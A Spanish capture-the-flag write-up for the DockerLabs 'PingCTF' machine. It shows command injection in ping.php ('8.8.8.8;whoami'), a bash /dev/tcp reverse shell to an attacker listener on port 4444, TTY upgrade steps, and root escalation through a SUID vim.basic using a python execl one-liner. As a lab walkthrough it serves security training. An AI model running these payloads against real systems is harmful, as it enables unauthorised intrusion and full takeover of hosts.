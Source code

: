 # 🖥️ Writeup - PingCTF 

**Plataforma:** Dockerlabs  
**Dificultad:** Easy  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip PingCTF.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh ping_ctf.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 
```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-04 19:38 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Ping
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```
El único puerto abierto es el puerto `80`, así que vamos a comprobar qué hay alojado.

Encontramos una especie de portal donde podemos verificar la conectividad introduciendo `IPs` o dominios.

![alt text](../images/IP%20verify.png)

Haremos una prueba verificando la conectividad con Google introduciendo `8.8.8.8`.

Se nos redirige a una página de resultados en la que podemos ver que la URL es la siguiente:

```
http://172.17.0.2/ping.php?target=8.8.8.8
``` 

Es decir, el archivo `ping.php` ejecuta un comando `ping` al target que le hemos pasado como parámetro.

Si conseguimos inyectar algún comando propio junto con la `IP`, obtendremos un `RCE` y una potencial vía de intrusión.

Vamos a probar el clásico punto y coma después de la `IP`, seguido de un comando nuestro.

```bash
8.8.8.8;whoami
``` 
![alt text](../images/whoami.png)

Como vemos, ha funcionado y estamos interactuando con el usuario `www-data`.

Ahora vamos a intentar obtener una `reverse shell` a través del `RCE`, y para ello utilizaremos `BurpSuite` para interceptar la petición y manipularla con mayor comodidad.

Una vez interceptada la petición, inyectamos el comando:

```bash
bash -c 'bash -i >& /dev/tcp/10.0.4.12/4444 0>&1'
``` 
Luego seleccionamos el comando y pulsamos `Ctrl + U` para aplicar URL encoding.

Colocamos un listener en el puerto `4444` de nuestra máquina atacante.

```bash
nc -nlvp 4444
```
Hacemos `forward` a la petición y recibimos la `reverse shell` en la máquina atacante.

Info:
```
listening on [any] 4444 ...
connect to [10.0.4.12] from (UNKNOWN) [172.17.0.2] 56276
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@21a8aa7e4e6e:/var/www/html$
```

# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

```bash
find / -perm -4000 -type f 2>/dev/null 
```

```bash
sudo getcap -r / 2>/dev/null
```

Info:
```
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/vim.basic
```

En los binarios con permisos SUID nos llama la atención el último: `vim.basic`.

Es probable que podamos inyectar comandos en el editor de texto y ejecutarlos como root, así que vamos a intentarlo.

Probamos con los siguientes comandos, pero ninguno de ellos funcionó.

```bash
/usr/bin/vim.basic -c ':!bash -p'
```

```bash
/usr/bin/vim.basic -c ':set shell=/bin/sh' -c ':shell'
```

Finalmente, lo conseguimos con el comando:

```bash
/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/bash", "bash", "-pc", "reset; exec bash -p")'
```
Info:
```
bash-5.2# whoami
root
bash-5.2# 
```

Somos root!